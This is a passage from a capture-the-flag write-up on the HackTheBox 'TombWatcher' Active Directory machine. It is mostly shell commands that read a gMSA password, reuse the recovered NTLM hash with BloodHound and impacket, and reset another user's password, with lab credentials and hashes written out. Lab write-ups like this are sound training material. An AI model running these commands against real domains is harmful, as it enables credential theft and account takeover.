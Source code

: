 > Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great) It means your machine's clock is out of sync with the domain controller and Kerberos hates that. Fix it with:
{: .prompt-warning }
```shell 
sudo systemctl stop systemd-timesyncd
sudo ntpdate 10.10.11.72
```
This stops the system time service and manually syncs your clock with the DC ```(10.10.11.72)```, so you can get Kerberos tickets properly again.

## ReadGMSAPassword on ANSIBLE_DEV$

After joining the ```INFRASTRUCTURE``` group, we gained the ```ReadGMSAPassword``` privilege on the Group Managed Service Account ```ANSIBLE_DEV$@TOMBWATCHER.HTB```
![bloodhound4](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fp4tuYgaMxZp5KDAKrrPO%252Fimage.png%3Falt%3Dmedia%26token%3De761548b-c9f7-4307-b008-616f4f01d423&width=400&dpr=3&quality=100&sign=6a50f1e9&sv=2)
```shell 
ldeep ldap -d "dc01.tombwatcher.htb" -u "alfred" -p "basketball" -s ldaps://10.10.11.72 gmsa
```
![ldeep](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F7jHbXvSVJifMNHkQetEC%252Fimage.png%3Falt%3Dmedia%26token%3D0176329c-57a0-41aa-a5ca-e3c5aab1a57a&width=400&dpr=3&quality=100&sign=937bbd22&sv=2)
We obtained the NTLM hash of the ```ansible_dev$``` machine account, allowing us to proceed with the next step in our path attack.

## Bloodhound 0x3

again and again and agian ...that is time with ```ansible_dev```      
```shell 
bloodhound-python -u 'ansible_dev$'  --hashes ':7bc5a56af89da4d3c03bc048055350f2' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```
![bloodhound5](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252F4oQQgomkZfel7E5yf68x%252Fimage.png%3Falt%3Dmedia%26token%3D44d6c899-5cfc-463a-8910-49e0c1d9b24b&width=400&dpr=3&quality=100&sign=4365dca&sv=2)
We discovered that ```ANSIBLE_DEV$@TOMBWATCHER.HTB``` can reset SAM's password without needing the current one.

## ANSIBLE_DEV$ Change SAM's Password

```shell 
python3 ~/Downloads/impacket/examples/changepasswd.py -dc-ip 10.10.11.72 -altuser ansible_dev$ -althash :7bc5a56af89da4d3c03bc048055350f2 -reset 'tombwatcher.htb/SAM@10.10.11.72'
```
When prompted, we set a new password for SAM:
![set_password](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252FuoorifNMlP6u12XCplyV%252Fimage.png%3Falt%3Dmedia%26token%3D1572ea17-938f-4374-9de7-1d669ea5b4d6&width=400&dpr=3&quality=100&sign=577a795b&sv=2)
now we could change the sam user password.

## Bloodhound 0x4

This time with ```SAM```
```shell 
bloodhound-python -u 'sam'  -p 'sam_pass' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```
![writeowner](https://mrci0x1.gitbook.io/home/~gitbook/image?url=https%3A%2F%2F2226553737-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FGuulzzy1AvWrJMh0trBB%252Fuploads%252Fmv69FDtj3sO9y8WtW8qO%252Fimage.png%3Falt%3Dmedia%26token%3De31852da-b0dd-4d02-8bb9-eaf4a323eb7a&width=400&dpr=3&quality=100&sign=6eb3e7c2&sv=2)
